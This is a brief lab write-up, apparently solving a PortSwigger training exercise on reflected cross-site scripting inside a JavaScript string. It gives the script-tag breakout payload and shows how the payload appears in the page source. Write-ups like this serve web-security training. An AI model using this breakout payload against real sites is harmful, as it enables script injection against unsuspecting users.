

# Reflected XSS into a JavaScript string with single quote and backslash escaped

## This lab contains a [reflected cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/reflected) vulnerability in the search query tracking functionality. The reflection occurs inside a JavaScript string with single quotes and backslashes escaped.

## To solve this lab, perform a cross-site scripting attack that breaks out of the JavaScript string and calls the `alert` function.

---

### step 1

search something



### step2

payload is

```javascript
</script><script>alert(1)</script>
```

enter into search result

```javascript
<script>

var searchTerms = '</script><script>alert(1)</script>';

document.write('');

</script>
```
